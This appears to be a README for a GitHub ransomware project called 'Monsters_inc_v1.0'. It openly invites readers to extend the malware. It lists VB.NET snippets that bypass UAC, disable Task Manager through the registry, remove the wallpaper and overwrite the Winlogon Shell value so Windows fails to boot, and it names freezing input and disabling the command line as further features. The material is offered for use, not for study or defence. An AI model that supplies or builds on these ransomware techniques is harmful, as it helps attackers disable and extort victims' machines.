 # Monsters_inc_v1.0<br>
Simple ransomware ..<br>
You can develop the ransomware by adding some features such as :<br><br>

        'Bypass UAC
        'Process.Start("cmd", "/c SET __COMPAT_LAYER=RunAsInvoker")
        'Disable taskmanager
        'My.Computer.Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System")
        'My.Computer.Registry.SetValue("DisableTaskMgr", 1, RegistryValueKind.String)
        'Remove wallpaper desktop
        'My.Computer.Registry.CurrentUser.CreateSubKey("Control Panel\\Desktop")
        'My.Computer.Registry.SetValue("Wallpaper", "", RegistryValueKind.String)
        'If you shutdown your computer, you cant run winodws well
        'My.Computer.Registry.CurrentUser.CreateSubKey("SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon")
        'My.Computer.Registry.SetValue("Shell", "empty", RegistryValueKind.String)

        'Frazee mouse/keyboard + kill proccess + disable command line&Powershell

Video : https://youtu.be/DO442auD2ic<br>
Twitter : https://twitter.com/0xHunter
